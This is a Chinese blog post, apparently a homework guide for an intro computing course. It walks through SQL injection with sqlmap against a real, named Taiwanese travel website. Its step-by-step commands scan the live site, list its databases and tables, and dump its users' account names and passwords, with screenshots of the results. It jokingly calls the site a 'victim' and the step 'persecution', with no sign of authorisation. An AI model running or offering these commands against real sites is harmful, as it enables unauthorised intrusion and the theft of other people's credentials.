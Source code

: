 ```yaml
---
title: 计算机导论大作业(SQL注入)指南
date: 2021-11-20
categories:
 - 其他
keys: 
 - 'dbd6d04a498427695f9502ff63021fc9' 
---
```

## **一、准备工作**
如果只在学校的电脑上耍可以跳过；
否则的话
需要VM Ware或者VirtualBox软件创建虚拟机。
安装Kali Linux虚拟机
这个教程很详细
[最新超详细虚拟机VMware安装Kali Linux](https://blog.csdn.net/qq_40950957/article/details/80468030)

其实虚拟机迟早都得学，都得用，我建议早点在自己电脑上装上
## **二、打开VM Ware 和 Kali linux**
俗话说，Kali用的好，牢饭吃到老，终于可以开始你的SQL注入之旅了。
## **三、打开Sqlmap工具**
在这儿
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212215715375.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
## **四、随机找一个受害者（网站）**
网站老师给的PPT里有，这里用最后一个做示范
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212215852493.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
## **五、进行迫害**
*1、先看看能不能进行sql注入（扫描）*

PS：让你输入Y/n的时候一律输Y就完了（Y用小写也是可以的）；
     	-u后面的是自己选的网址
```bash
sqlmap -u http://www.17tour.com.tw/newsCat.php?cat=1
```
一切正常的话大概会进到这块地方；
说明这个网站是可以的
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212220452323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
*2、爆表名*

```bash
sqlmap -u http://www.17tour.com.tw/newsCat.php?cat=1 –tables
```

一切正常的话....
就能看到两个database（数据库）
这里只贴了一个
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212221208549.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
找到那个类似于user这样的数据表，记下它在哪个数据库下面，实例中是 tourtw_new17tour 这个数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212221246590.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
*3、爆列名*

user是你刚刚找到的表；名字可能类似user不一定就是user
```bash
sqlmap -u http://www.17tour.com.tw/newsCat.php?cat=1 --columns -T "users"
```
一切顺利的话...
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212221623352.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
*4、就可以看到我们的目标了*

就是那个userAccount 和userPassword
记得类比为自己的（小声bb）

```bash
sqlmap -u http://www.17tour.com.tw/newsCat.php?cat=1 --dump -C "userAccount,userPassword"
```
最终结果
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201212221843933.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FsYW5Db3JuXzAy,size_16,color_FFFFFF,t_70)
## **六、作业上传**

